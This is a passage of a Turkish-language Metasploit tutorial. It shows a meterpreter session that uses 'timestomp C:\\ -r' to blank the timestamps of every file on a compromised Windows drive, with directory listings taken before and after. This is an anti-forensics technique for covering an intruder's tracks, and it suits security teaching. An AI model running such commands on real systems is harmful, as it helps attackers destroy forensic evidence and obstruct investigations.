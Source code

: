 

## Tüm Sistemin Zaman Bilgilerini Değiştirme


```bash
meterpreter > pwd
C:WINNT\antivirus
meterpreter > cd ../..
meterpreter > pwd
C:
meterpreter > ls

Listing: C:\
**============**

Mode              Size       Type  Last modified                   Name                      
----              ----       ----  -------------                   ----                      
100777/rwxrwxrwx  0          fil   Wed Dec 31 19:00:00 -0500 1969  AUTOEXEC.BAT              
100666/rw-rw-rw-  0          fil   Wed Dec 31 19:00:00 -0500 1969  CONFIG.SYS                
40777/rwxrwxrwx   0          dir    Wed Dec 31 19:00:00 -0500 1969  Documents and Settings    
100444/r--r--r--  0          fil   Wed Dec 31 19:00:00 -0500 1969  IO.SYS                    
100444/r--r--r--  0          fil   Wed Dec 31 19:00:00 -0500 1969  MSDOS.SYS                 
100555/r-xr-xr-x  34468      fil   Wed Dec 31 19:00:00 -0500 1969  <a href="http://ntdetect.com/">NTDETECT.COM</a>              
40555/r-xr-xr-x   0          dir   Wed Dec 31 19:00:00 -0500 1969  Program Files             
40777/rwxrwxrwx   0          dir   Wed Dec 31 19:00:00 -0500 1969  RECYCLER                  
40777/rwxrwxrwx   0          dir   Wed Dec 31 19:00:00 -0500 1969  System Volume Information 
40777/rwxrwxrwx   0          dir   Wed Dec 31 19:00:00 -0500 1969  WINNT                     
100555/r-xr-xr-x  148992     fil   Wed Dec 31 19:00:00 -0500 1969  arcldr.exe                
100555/r-xr-xr-x  162816     fil   Wed Dec 31 19:00:00 -0500 1969  arcsetup.exe              
100666/rw-rw-rw-  192        fil   Wed Dec 31 19:00:00 -0500 1969  boot.ini                  
100444/r--r--r--  214416     fil   Wed Dec 31 19:00:00 -0500 1969  ntldr                     
100666/rw-rw-rw-  402653184  fil   Wed Dec 31 19:00:00 -0500 1969  pagefile.sys              

meterpreter > timestomp C:\\ -r
> Blanking directory MACE attributes on C:\
meterpreter > ls
meterpreter > ls

Listing: C:\
**============**

Mode              Size       Type  Last modified              Name
----              ----       ----  -------------              ----
100777/rwxrwxrwx  0          fil   2106-02-06 23:28:15 -0700  AUTOEXEC.BAT
100666/rw-rw-rw-  0          fil   2106-02-06 23:28:15 -0700  CONFIG.SYS
100666/rw-rw-rw-  0          fil   2106-02-06 23:28:15 -0700  Documents and Settings
100444/r--r--r--  0          fil   2106-02-06 23:28:15 -0700  IO.SYS
100444/r--r--r--  0          fil   2106-02-06 23:28:15 -0700  MSDOS.SYS
100555/r-xr-xr-x  47564      fil   2106-02-06 23:28:15 -0700  <a href="http://ntdetect.com/">NTDETECT.COM</a>
...snip...
```



`timestomp C:\\ -r` komutuyla C diskinde bulunan tüm dosyaların zaman bilgilerinin değiştirildiğini görebilirsiniz.



Akıllı **forensics** araştırmacıları, sadece zaman bilgileri değil başka yerlere de bakarlar. Windows içinde çeşitli farklı kayıt mekanizmaları bulunmaktadır.
